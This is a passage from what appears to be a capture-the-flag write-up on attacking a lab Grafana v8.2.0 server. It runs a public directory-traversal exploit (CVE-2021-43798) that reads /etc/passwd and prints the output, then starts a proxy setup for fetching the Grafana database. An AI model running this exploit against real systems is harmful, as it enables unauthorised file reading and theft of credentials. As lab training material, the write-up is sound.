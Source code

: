 Version: Grafana - v8.2.0 (d7f71e9eae)


# Exploit


## TCP 3000 - HTTP Grafana

Searchsploit

```bash
┌──(root㉿kali)-[~/ambassador]
└─# searchsploit grafana                                                                        
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                                                                                      | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                                  | multiple/webapps/50581.py
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Test Exploit 

```bash
┌──(root㉿kali)-[~/ambassador]
└─# python3 50581.py -H http://10.10.11.183:3000   
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
```

Search `granfa exploit github`
- https://github.com/jas502n/Grafana-CVE-2021-43798


### Get granfa db

Use proxychains and burp to mitm the exploit request

```bash
cat /etc/proxychains4.conf 
...

# defaults set to "tor"
socks4  127.0.0.1 9050
```
